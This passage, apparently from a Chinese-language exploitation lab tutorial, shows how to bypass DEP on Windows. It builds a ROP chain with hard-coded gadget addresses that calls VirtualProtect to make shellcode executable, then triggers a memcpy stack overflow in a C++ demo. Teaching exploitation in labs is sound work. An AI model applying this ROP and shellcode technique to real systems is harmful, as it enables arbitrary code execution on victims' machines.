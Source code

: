 如果我们能够按照如下参数布置好栈帧的话就可以将 shellcode 所在内存区域设置为可执行模式。

```
BOOL VirtualProtect(
    shellcode 所在内存空间起始地址,
    shellcode 大小,
    0x40,
    某个可写地址
);
```

这里有两个问题需要注意。
- （1）参数中包含 0x00，strcpy 在复制字符串的时候会被截断，所以我们不能攻击 strcpy 函数，本次实验中我们改为攻击 memcpy 函数。
- （2）对 shellcode 所在内存空间起始地址的确定，不同机器之间 shellcode 在内存中的位置可能会有变化，本次实验中我们采用**一种巧妙的栈帧构造方法动态确定 shellcode 所在内存空间起始地址**。

我们将用如下代码演示如何布置栈帧，并利用 VirtualProtect 函数将 shellcode 所在内存区域设置为可执行状态，进而执行 shellcode。

```c++
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
    "……"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C" //pop eax retn
    "\x0A\x1A\xBF\x7C" //pop pop pop retn
    "\xBA\xD9\xBB\x7C" //修正 EBP
    "\x8B\x17\x84\x7C" //RETN
    "\x90\x90\x90\x90"
    "\xBF\x7D\xC9\x77" //push esp jmp eax
    "\xFF\x00\x00\x00" //修改内存大小
    "\x40\x00\x00\x00" //可读可写可执行内存属性代码
    "\xBF\x7D\xC9\x77" //push esp jmp eax
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xE8\x1F\x80\x7C" //修改内存属性
    "\x90\x90\x90\x90"
    "\xA4\xDE\xA2\x7C" //jmp esp
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "……"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    ;
void test()
{
    char str[176];
    memcpy(str,shellcode,420);
}
int main()
{
    HINSTANCEh Inst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```
